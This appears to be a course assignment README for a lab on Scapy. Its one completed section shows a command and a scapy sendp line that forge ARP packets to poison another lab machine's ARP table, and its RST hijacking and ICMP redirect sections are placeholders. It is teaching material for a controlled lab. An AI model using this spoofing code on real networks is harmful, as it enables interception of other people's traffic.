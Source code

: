 ## Assignment 3 - Using Scapy

 * [2. Testing Scapy](#2-testing-scapy)
 * [3. RST Hijacking](#3-rst-hijacking)
 * [4. Redirect response to ICMP echo/request](#4-redirect-response-to-icmp-echorequest)

### 2. Testing scapy

Repeat the ARP table attack from [Assignment 2], but using scapy instead of nemesis.
On machine 2 obtain the MAC addresses of machines 1 and 2.

```
cd csc-course/assignment3 &&
sudo python arpp.py -S 192.168.1.3 -D 192.168.1.1 -h <MAC machine 2> -m <MAC machine 1> -i enp0s3
```

If succesful, the ARP table of machine 1 will now have a spoofed MAC address for machine 3.

The python script achieves this with the following command:
```
sendp(Ether(dst=dstMAC, src=srcMAC)/ARP(hwsrc=srcMAC, hwdst=dstMAC, psrc=srcIP, pdst=dstIP), iface=devID)
```

Scapy allows us to create our own packets, namely stacking different protocol layers.
The previous command is sending an ARP Ethernet packet.
To do so, it relies on the composition operator `/` to stack the Ethernet and ARP layers.

Check the documentation for [scapy].

### 3. RST Hijacking

TODO

### 4. Redirect response to ICMP echo/request 

TODO

[assignment 2]: assignment2.md
[scapy]: http://scapy.readthedocs.io